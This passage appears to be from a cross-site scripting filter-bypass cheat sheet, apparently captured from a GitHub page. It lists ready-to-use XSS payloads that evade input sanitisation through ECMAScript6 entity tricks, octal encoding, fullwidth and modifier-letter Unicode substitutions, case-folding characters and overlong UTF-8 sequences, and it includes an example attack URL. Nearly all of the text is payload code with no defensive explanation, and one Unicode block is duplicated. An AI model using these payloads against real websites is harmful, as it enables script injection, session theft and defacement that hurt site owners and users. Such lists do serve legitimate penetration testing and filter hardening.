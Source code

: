 Bypass using ECMAScript6 variation:

```
<script>alert&DiacriticalGrave;1&DiacriticalGrave;</script>
```

Bypass using Octal encoding

```javascript
javascript:'\74\163\166\147\40\157\156\154\157\141\144\75\141\154\145\162\164\50\61\51\76'
```

Bypass using Unicode

```javascript
Unicode character U+FF1C FULLWIDTH LESS­THAN SIGN (encoded as %EF%BC%9C) was
transformed into U+003C LESS­THAN SIGN (<)

Unicode character U+02BA MODIFIER LETTER DOUBLE PRIME (encoded as %CA%BA) was
transformed into U+0022 QUOTATION MARK (")

Unicode character U+02B9 MODIFIER LETTER PRIME (encoded as %CA%B9) was
transformed into U+0027 APOSTROPHE (')

Unicode character U+FF1C FULLWIDTH LESS­THAN SIGN (encoded as %EF%BC%9C) was
transformed into U+003C LESS­THAN SIGN (<)

Unicode character U+02BA MODIFIER LETTER DOUBLE PRIME (encoded as %CA%BA) was
transformed into U+0022 QUOTATION MARK (")

Unicode character U+02B9 MODIFIER LETTER PRIME (encoded as %CA%B9) was
transformed into U+0027 APOSTROPHE (')

E.g : http://www.example.net/something%CA%BA%EF%BC%9E%EF%BC%9Csvg%20onload=alert%28/XSS/%29%EF%BC%9E/
%EF%BC%9E becomes >
%EF%BC%9C becomes <
```

Bypass using Unicode converted to uppercase

```javascript
İ (%c4%b0).toLowerCase() => i
ı (%c4%b1).toUpperCase() => I
ſ (%c5%bf) .toUpperCase() => S
K (%E2%84%AA).toLowerCase() => k

<ſvg onload=... > become <SVG ONLOAD=...>
<ıframe id=x onload=>.toUpperCase() become <IFRAME ID=X ONLOAD=>
```

Bypass using overlong UTF-8

```javascript
< = %C0%BC = %E0%80%BC = %F0%80%80%BC
> = %C0%BE = %E0%80%BE = %F0%80%80%BE
' = %C0%A7 = %E0%80%A7 = %F0%80%80%A7
" = %C0%A2 = %E0%80%A2 = %F0%80%80%A2
" = %CA%BA
' = %CA%B9
```
